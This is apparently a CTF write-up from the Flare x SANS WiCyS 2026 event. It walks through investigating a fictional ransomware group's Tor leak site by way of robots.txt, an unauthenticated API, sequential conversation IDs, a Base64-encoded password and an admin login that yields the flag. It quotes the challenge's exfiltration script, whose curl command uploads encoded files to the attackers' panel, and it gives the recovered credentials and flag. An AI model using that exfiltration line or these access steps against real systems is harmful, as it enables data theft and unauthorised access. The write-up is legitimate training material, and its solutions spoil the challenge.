# Sisterhood of the Travelling Packets

> Flare x SANS WiCyS Capture the Flag 2026

## Challenge Overview

**Event:** FLARE x SANS WiCyS Capture the Flag 2026  
**Category:** Cybersecurity / CTF  
**Focus:** Reconnaissance, web investigation, threat intelligence, API enumeration and forensic analysis  
**Status:** Completed

> ⚠️ This write-up contains spoilers and challenge solutions.
---

## Overview

This write-up documents my investigation of the **Sisterhood of the Travelling Packets** challenge from the Flare x SANS WiCyS Capture the Flag 2026.

The investigation began with a ransomware leak-style website associated with the fictional group **pantalones**.

The objective was to investigate the exposed infrastructure, identify the relationship between the leak pages and the compromised victim data, enumerate the exposed API, recover useful information from the available files and conversations, and ultimately retrieve the CTF flag.

The challenge involved a combination of:

- Web enumeration
- Hidden files and dotfiles
- API enumeration
- Parameter discovery
- Conversation enumeration
- Base64 decoding
- Credential discovery
- Authentication
- Administrative panel enumeration
- Connecting information across multiple compromised organisations

---

# 1. Initial Website Enumeration

The investigation started by accessing the exposed `.onion` website through Tor.

The landing page identified the group as:

> `pantalones`

and described the operation as:

> `stealing your files since '26.`



The main navigation exposed several pages:

- `index.php`
- `crew.php`
- `about.php`

I inspected each available page rather than assuming the landing page contained the entire challenge.

The page revealed several organisations, including:

- Sisterhood of the Travelling Packets
- NexaVista Solutions
- StratifyTech Inc.
- Lumenisys Global
- QuantumCore Systems
- AetherFlow Enterprises

The page source also contained information about leaked files and downloadable content.
---

# 2. Website Content

The main leak page contained a list of victims.



After viewing the main leak page, I inspected its HTML/source rather than relying only on the rendered page.

The page contained a JavaScript `victims` array containing information about the listed targets.

For example, the source exposed direct paths to two leaked archives:

```text
downloads/quantumcore/quantumcore_leak.zip
downloads/aetherflow/aetherflow_leak.zip
```
---

# 3. Inspecting the About Page

The `about.php` page provided additional context about the group.



The website claimed that pantalones was a group of four hackers:

- vex — operator / panel developer
- crypt — payload engineer
- mora — negotiations
- skid — initial access

---

# 4. Enumerating the Crew Page

The `/crew.php` page confirmed the operators and their roles.



This became useful later because the API conversations contained messages from these operators.

---


## 5. Inspecting the Leak Files

The website exposed downloadable leak files for some of the victims.

The **QuantumCore Systems** entry provided access to a leak archive.



The **AetherFlow Enterprises** entry also exposed a leak archive.



The AetherFlow archive contained:

```text
aetherflow/
├── api_keys_internal.yaml
├── customers.sql
├── route_algorithms_PROPRIETARY.sql
└── .exfil.sh
```
---
## 6. Inspecting `exfil.sh`
I inspected .exfil.sh, which contained references to the attackers' panel and showed how files were uploaded.

Relevant portions included:
```text
PANEL="http://...onion/"
KEY="pantalonesgroup"
```
The script then uploaded files to the panel using:
```text
curl -s -X POST "${PANEL}/api.php?action=upload" \
-H "X-Panel-Key: ${KEY}" \
-d "chunk=${b64}&fname=${f}&tag=aetherflow"
```
This confirmed the relationship between the AetherFlow exfiltration script and the attackers' command-and-control/exfiltration panel. The script encoded the file data and submitted it to the panel's upload API using the configured panel key and the aetherflow tag.

The script also showed that the attackers were uploading files to the panel using an `X-Panel-Key` header.


---
## 7. Inspecting Robots.txt

I checked the site's `robots.txt`.

```text
User-agent: *
Disallow: /api.php
Disallow: /admin.php
```


I requested the API without parameters: `/api.php`

This immediately revealed the available API functionality.

The most interesting actions were:
```text
status
messages
decrypt
wallets
payloads
exfil
```


I queried the all the actions,
Like:`/api.php?action=status`


This confirmed that the API was exposing internal operational information without requiring authentication.

---
## 8. Discovering the Messages Endpoint
Requesting the messages endpoint without a conversation ID resulted in:
```text
{
  "error": "missing required parameter: conversation_id"
}
```


The error message itself disclosed the required parameter:
```text
conversation_id
```
This suggested that conversation IDs might be enumerable.

Then I tested sequential conversation IDs.

For example:
```text
/api.php?action=messages&conversation_id=0
```
returned an internal conversation.


I then enumerated additional IDs.

This exposed internal conversations between the operators.

While enumerating the conversations, another particularly useful conversation appeared.

Conversation 2 contained a message from `crypt` to `mora`:

`UGFudGFsMG4zc19SdWwzeiE=`

The message indicated that this was Mora's password encoded in Base64.

---
## 9. Base64 Decoding

I decoded it using PowerShell:
```text
[System.Text.Encoding]::UTF8.GetString(
    [System.Convert]::FromBase64String("UGFudGFsMG4zc19SdWwzeiE=")
)
```
The decoded value was:
```text
Pantal0n3s_Rul3z!
```
This provided valid credentials for the administrative interface.



---
## 10. Accessing admin.php

The `admin.php` endpoint discovered through `robots.txt` presented an authentication form.

I used the credentials discovered during the conversation enumeration:
```text
curl.exe --socks5-hostname 127.0.0.1:9150 `
  -c cookies.txt `
  -d "username=mora&password=Pantal0n3s_Rul3z!" `
  "$URL/admin.php"
```
The authentication succeeded and returned the administrative dashboard.



The login was successful.

## FLAG FOUND
The admin dashboard contained information about the group's victims, including their status, ransom demands, and decryption keys.

The `Sisterhood of the Travelling Packets` entry contained the flag.


Flag
`flare{pantal0n3s_g0t_pantsed_2026}`

